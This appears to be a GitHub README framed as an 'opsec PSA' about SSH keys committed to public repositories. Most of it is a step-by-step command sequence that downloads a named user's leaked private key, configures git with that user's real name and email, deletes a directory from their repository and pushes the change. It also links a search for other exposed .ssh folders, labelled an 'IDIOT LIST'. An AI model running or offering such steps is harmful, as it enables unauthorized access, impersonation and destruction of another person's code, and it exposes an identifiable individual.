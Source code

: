 PSA: understand opsec
===

If you are using ssh with your git account it's not a great location to back up your [private key] or someone might come along and take [advantage].

    wget https://raw.github.com/topcpper/winconfig/3c6074c8ea5a6ed23e76d8cd894d6f6d43364dce/.ssh/id_rsa
    mv id_rsa .ssh/
    git clone git@github.com:topcpper/cpp.git
    git rm -r localsearch/
    git config --global user.name "Cao Weigang"
    git config --global user.email topcopper@gmail.com
    git commit -m "rsakeytest"
    git push origin master

[IDIOT LIST]

[private key]: https://github.com/topcpper/winconfig/blob/3c6074c8ea5a6ed23e76d8cd894d6f6d43364dce/.ssh/id_rsa
[advantage]: https://github.com/topcpper/cpp/commit/7e21f78ad41b692cd296c92e62b86d4ab32aa95c
[IDIOT LIST]: https://github.com/search?q=path%3A.ssh&ref=cmdform
